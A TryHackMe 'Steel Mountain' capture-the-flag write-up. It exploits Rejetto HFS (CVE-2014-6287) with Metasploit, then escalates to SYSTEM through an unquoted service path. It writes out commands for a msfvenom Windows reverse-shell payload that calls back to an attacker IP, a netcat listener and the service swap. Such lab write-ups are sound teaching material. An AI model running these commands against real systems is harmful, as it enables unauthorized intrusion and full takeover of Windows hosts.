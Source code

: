 # Steel mountain

This is a Write up for the Steel Mountain machine form TryHackMe you can find the link and details about the room in the [README.md](https://github.com/mil0666/tryhackme-writeups/blob/main/README.md)
**FIY**: words that are marked *LIKE THIS* are commands that you can use in you terminal



First what I like to do with any machine turn on nmap and gobuster and let them run in the background I have my nappy.sh and
gobuddy-dir.sh "scripts"

nappy.sh - *nmap -sS -sV -A -O $IP*

gobuddy-dir.sh - *gobuster dir -u http://$IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt*

I usually use seclists for this you can find them here - https://github.com/danielmiessler/SecLists

### INITIAL ACCESS

While our scans are going in the background we can take a look at our target through the browser


I tried to zoom in here to see if his name is written on the shirt but no luck,
My next try was going to View source for this page and there it was /img/BillHarper.png
So there we have our first answer.

1. Who is the employee of the month?

   **bill harper**


 2. Scan the machine with nmap. What is the other port running a web server on?
   Good thing we got the nmap scan already running so we know the answer to this is

    **8080**

![image](https://user-images.githubusercontent.com/81188817/112178397-fc3e7000-8bf9-11eb-8fa1-6a2df846e24d.png)


3. Take a look at the other web server. What file server is running?

    So in the screen shot above we can see it is a HttpFileServer 2.3
    but that is only the part of the server. If you don't see this HttpFileServer 2.3. hyperlinked below the Actions the first time you go to the link, feel free to click around     a bit or refresh the page and it will appear.
    When you actually click on it it will take you this link - http://www.rejetto.com/hfs/

    So with this we now have the whole answer:

    **Rejetto http file server**

4. What is the CVE number to exploit this file server?

    We can either use google (exploit-db) or searchsploit to find exploits for this HFS:
    You can just google CVE rejetto http file server and the firs exploit-db link I got is this:

    https://www.exploit-db.com/exploits/39161

    So the answer is:  **2014-6287**

The command for searchsploit is:
*searchsploit rejetto http file server*

Here we can see searchsploit results and we can see the **39161.py** that we will need for this machine a bit later, so you can just copy that python script to your working directory so you don't have to look for it later.

![image](https://user-images.githubusercontent.com/81188817/112178754-517a8180-8bfa-11eb-9385-edb25129e52f.png)


 *cp /usr/share/exploitdb/exploits/windows/remote/39161.py Desktop/thm/steelmountain/* - this will copy the python script.

 5. Use Metasploit to get an initial shell. What is the user flag?

     Okay we will first start metasploit by running msfconsole in our terminal
     There in the msfconsole you will use *search* command is msfconsole to find the exploit that we need:
     *search rejetto http file server* - we only got one exploit so we will go and use that one with the command *use 0*
     out default payload is windows/meterpreter/reverse_tcp which is what we need so we'll leave it as is

 ![image](https://user-images.githubusercontent.com/81188817/112179056-9f8f8500-8bfa-11eb-9691-d392c64a7f41.png)


 Then you'll type in *options* to see what we have to configure in order for this payload to work:

 ![image](https://user-images.githubusercontent.com/81188817/112179080-a61dfc80-8bfa-11eb-8ce2-2c91ff2648bf.png)

 ##### What we need to configure:

RHOST & RPORT  - These will be our target machine IP address and the port 8080

SRVHOST & SRVPORT - these will be your attacking machine IP address (usually tun0 interface, you can find this via *ip addr* command), and for the port you can put any port      that isn't already busy, but I would recommend a higher number port e.g. 4848

 Also you have to configure the two for the payload as well:
 LHOST & LPORT, there I configured the same IP address (our attacking machine, tun0) but a different port then what we configured for the the **SRVPORT**

 We use the prefix set e.g. *set LPORT 4848* for all the options.

 After we set up everything you can just type *run* or *exploit* and you should get a meterpreter shell.
 There we can use the *migrate* command to migrate to a more stable process so our session doesn't break in the middle of our priv esc :D

 ![image](https://user-images.githubusercontent.com/81188817/112179284-d8c7f500-8bfa-11eb-9fa3-08e537ff896c.png)

 To see the processes you can type *ps* and migrate using the process PID number, here I migrated to the explorer.exe process using its PID.

  After this we can go and fetch the user flag, first we have to locate it the logical path is to go to the Users desktop and search there:

![image](https://user-images.githubusercontent.com/81188817/112179337-e54c4d80-8bfa-11eb-8fa0-02937ce812b8.png)

 ### PRIVELEGDE ESCALATION WITH METASPLOIT:

First what we need to do is download the **PowerUp.ps1** script to our working directory on our attacking machine since this is what we will be using for our priv ecs on the    target machine.

 You can find the script here - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

 When you use the *wget* command be sure that you click RAW for the script and then *wget* it like that to your machine
 The full command is:

  *wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1*

  Then on our meterpreter shell we use upload to get it onto the windows target machine so:
  *upload PowerUp.ps1*  (if this doesn't work use the full path to the file e.g. /home/user/Desktop/PowerUp.ps1)

  So now we have the script on Bills desktop.

  In order for us to use this powershell script we have to first prepare so we will type *load powershell* to load the powershell extension and than *powershell_shell* to get our shell
  so we can actually use the script * . .\PowerUp.ps1 * and after that Invoke-AllChecks
 It should look like this:

 ![image](https://user-images.githubusercontent.com/81188817/112180478-e16cfb00-8bfb-11eb-8f5f-8212bdff6a5d.png)


 Pay close attention to the **CanRestart** option that is set to true. What is the name of the name of the service which shows up as an _unquoted service path_ vulnerability?

 So basically the first service that appears: **AdvancedSystemCareService9** is the one that has CanRestart marked True and it is located under C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe

 We have the explanation in the room why the CanRestart is important:

 The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

 Use msfvenom to generate a reverse shell as an Windows executable. The command I used was:

  *msfvenom -p windows/shell_reverse_tcp LHOST=10.14.7.187 LPORT=5556 -f exe -o ASCService.exe*

  -p is for payload and here we specify the payload that we wanna use

  LHOST and LPORT is the IP of your attacking machine and the port of your choosing

  -f is type of file, here we specified exe

  -o the output file, I named it the same as the exe of the service we want to copy over.

  So we'll go to our folder on the target machine where the exe file of the service is stored

  *cd C:/"Program Files (x86)"/IObit/"Advanced SystemCare"/*

  We have to put quotations because of the spaces, we can't cd without them into these folders.

  When we're there we will stop the ASCService.exe, but first type in *shell* to get a shell where we can actually stop the service since I haven't found a way to do this from     meterpreter:

  After you get the shell type:  *net stop AdvancedSystemCareService9*

 ![image](https://user-images.githubusercontent.com/81188817/112180605-fea1c980-8bfb-11eb-9c1e-7146c7afa6e2.png)


  Then we leave this shell so we can *upload* our payload through meterpreter and get back the shell. You do this with CTRL+C or *exit*
  And then upload the payload the same way we did with the PowerUp.ps1 script:

  ![image](https://user-images.githubusercontent.com/81188817/112180784-25600000-8bfc-11eb-9fb6-3039d8c46968.png)


  Before we start the service again make sure you have a nc listener on your attacking machine with the port you defined  while making the payload in msfvenom (LPORT option):
  In my case it's:

  *nc -lvnp 5556*

  And then go to the targer machine go ahead and type *shell* first and then start the service with

  *net start AdvancedSystemCareService9*

  And voilà you will get a reverse shell.

  When you type *whoami* you will se you are **nt authority\system** which is root for windows.

  From there you can go ahead to the Administrators desktop and look for the flag.

![image](https://user-images.githubusercontent.com/81188817/112180844-33ae1c00-8bfc-11eb-8be6-b8b8a18ab7f2.png)

### PRIVELEGDE ESCALATION WITHOUT METASPLOIT:

Remember the python script that I said you should save to your working directory cause we're gonna use it later, well later is now :D 

If you didn't save it then no big deal you can just go to you directory and type:
*cp /usr/share/exploitdb/exploits/windows/remote/39161.py* - this will copy the script to you current directory sdsd
